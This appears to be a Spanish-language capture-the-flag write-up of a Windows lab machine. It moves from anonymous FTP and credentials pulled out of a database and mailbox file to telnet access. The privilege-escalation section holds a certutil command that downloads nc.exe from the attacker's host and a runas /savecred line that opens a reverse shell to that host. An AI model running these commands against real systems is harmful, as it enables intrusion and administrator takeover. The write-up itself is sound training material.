

## Test
---

<style>
  .spoiler-toggle {
    position: absolute;
    opacity: 0;
    pointer-events: none;
  }

  .spoiler-text {
    cursor: pointer;
    filter: blur(6px);
    opacity: 0.35;
    transition: filter 0.2s ease, opacity 0.2s ease;
  }

  .spoiler-toggle:checked + .spoiler-text {
    filter: none;
    opacity: 1;
    user-select: text;
  }
</style>

Hint 1:
<input class="spoiler-toggle" type="checkbox" id="step-1">
<label class="spoiler-text" for="step-1">
  Puerto 21 abierto, se podrá ingresar sin credenciales ?
</label>

Hint 2:
<input class="spoiler-toggle" type="checkbox" id="step-2">
<label class="spoiler-text" for="step-2">
  Archivos tipo base de datos, las tablas de usuarios son siempre un target escencial
</label>

Hint 3:
<input class="spoiler-toggle" type="checkbox" id="step-3">
<label class="spoiler-text" for="step-3">
  Ingresar por un puerto no común no es usual, pero tampoco imposible
</label>

Hint 4:
<input class="spoiler-toggle" type="checkbox" id="step-4">
<label class="spoiler-text" for="step-4">
  Es de mala prácica dejar credenciales guardadas, pero peor sería no aprovecharse de ello...
</label>


## Writeupp
---

###  Reconocimiento

Se realiza un escaneo de puertos y servicios utilizando la herramienta `nmap`, para ello se emplea el siguiente comando:

```sh
nmap -sS -Pn -n --min-rate 5000 10.129.54.238 -sV
```



Dentro del resultado obtenemos los puertos 21, 23 y 80, empezaremos enumerando el puerto 21, este puerto en particula es el que permite compartir archivos por el protocolo FTP, algunas veces permite el logueo anónimo (sin credenciales) para poder listar los archivos, para verificar eso trataremos de comunicarnos con ese puerto e ingresaremos credenciales anónimas a través del siguiente comando:

```sh
ftp 10.129.54.238
```


> [!nota]
> No es necesario colocar el usuario "anonymous", incluso se puede pulsar la tecla ENTER, lo mismo sucede con la contraseña

Una vez realizado esto ejecutamos los siguientes comandos internos:

```text
ftp> ls
```



Notamos 2 carpetas **Backups** y **Engineer**, procedemos a listar cada una de ellas

```text
ftp> cd Backups
ftp> ls
```



Se puede notar que hay un archivo llamado **backup.mdb**, descargaremos este archivo para un análisis posterior

```text
ftp> get backup.mdb
```



Además de esa carpeta investigaremos a **Engineer**

```text
ftp> cd ..
ftp> cd Engineer
ftp> ls
```



Ahora vemos un archivo llamado **Access Control.zip** el cual tambien vamos a descargar

```text
ftp> get Access\ Control.zip
```



Luego salimos de la sesión ftp.

```text
ftp> exit
```

Veremos los archivos que hemos descargado, empezando por el *.zip*, procederemos a revisar que archivos tiene dentro

```sh
zipinfo Access\ Control.zip
```



Es un archivo llamado **Access Control.pst**, intentaremos conseguir ese archivo, sin embargo, nos solicita contraseña

```sh
7z x Access\ Control.zip
```



Entonces vamos con el otro archivo, al parecer es un archivo tipo Miicrosoft Access Database, lo podemos corroborar usando el siguiente comando:

```sh
file backup.mdb
```



Para procesarlautilizaremos la herramienta `mdb-schema` por medio del siguiente comando

```sh
mdb-schema backup.mdb
```


Sin ebmargo, parece que el formato del archivo **backup.mdb** no es el correcto, para remediar esto regresaremos al instante en que ingresábamos por ftp hacia el servidor y ahora antes de descargar el archivo ejecutaremos 
`binary ON` tal como se muestra a continuación:

```sh
ftp> cd Backups
ftp> binary ON
ftp> ls
ftp> get backup.mdb
```



EL comando `binary ON` permite realizar la descargas por medio del formato binario, esto trae beneficios ya que se puede descargar el archivo sin tener alguna corrupción de por medio (cosa que pudo haber pasado anteriormente)

Con el archivo descargado procedemos a utilizar de nuevo la herramienta `mdb-schema`

```sh
mdb-schema backup.mdb
```



Ahora sí nos arroja un resultado, si bajamos lo suficiente dentro del output que nos dió el comando podemos ver lo siguiente:



Notamos que existe una tabla con el nombre *auth_user* y dispone de diversas columnas, entre ellas campos interesantes como 

- username
- password

Entonces utilizaremos la herramienta `mdb-sql` para realizar consultas hacia esa table y con esos campos específicos

```sh
mdb-sql backup.mdb
```



Vemos una contraseña *access4u@security*, la utilizaremos para obtener el contenido del archivo *.zip*



Al colocar la contraseña obtenemos el archivo **Access Control.pst**, primero verificaremos qué tipo de archivo es:

```sh
file Access\ Control.pst
```



Para leer ese tipo de archivo utilziaremos la herramienta `readpst`

```sh
readpst Access\ Control.pst
```


Esto arrojará un archivo con el mismo nombre, pero con la extensión *.mbox* el cual podemos leer normalmente

```sh
cat Access\ Control.mbox

From "john@megacorp.com" Thu Aug 23 19:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
    boundary="--boundary-LibPST-iamunique-1011343335_-_-"
 
 
----boundary-LibPST-iamunique-1011343335_-_-
Content-Type: multipart/alternative;
    boundary="alt---boundary-LibPST-iamunique-1011343335_-_-"
 
--alt---boundary-LibPST-iamunique-1011343335_-_-
Content-Type: text/plain; charset="utf-8"
 
Hi there,
 
 
 
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
 
 
 
Regards,
 
John
 
(...)

```

Este archivo arroja la contraseña *4Cc3ssC0ntr0ller*, esta la utilizaremos para ingresar al sistema utilizando el usuario *security*

> [!nota]
> Se intentó ingresar al sistema por medio del puerto 22 (SSH), sin embargo, la máquina no respondía

### Acceso Inicial

Al no poder ingresar por SSH se usará el puerto 23, al intentar conectarnos a ese puerto nos arroja lo siguiente:

```sh
telnet 10.129.54.238
```



Ingresamos el usuario y contraseña encontradas en el correo y obtenemos acceso a través de una shell interactiva



Verifcamos los grupos y permisos actuales que tiene el usuario con la máquina

```powershell
whoami /all
```



Notamos que no hay algo específico que nos permita escalar privilegios, ahora verificaremos si se tiene credenciales guardados por medio del siguiente comando

```powershell
cmdkey /list
```



Se obtiene que se tene la credencal del Administrador guardada dentro del sistema, la utilizaremos para ejecutar comandos como ese usuario

### Escalamiento de privilegios

Para obtener acceso al sistema primero llevaremos el ejecutable *nc.exe* a la máquina víctima

```powershell
certutil.exe -f -split -urlcache http://10.10.15.231:8000/nc.exe
```



Ahora ejecutaremos la shell reversa utilizando el siguiente comando

```powershell
runas.exe /savecred /user:ACCESS\Administrator "C:\Users\security\nc.exe 10.10.15.231 4444 -e cmd.exe"
```



Esto nos da una shell interactiva dentro del sistema objetivo como el administrador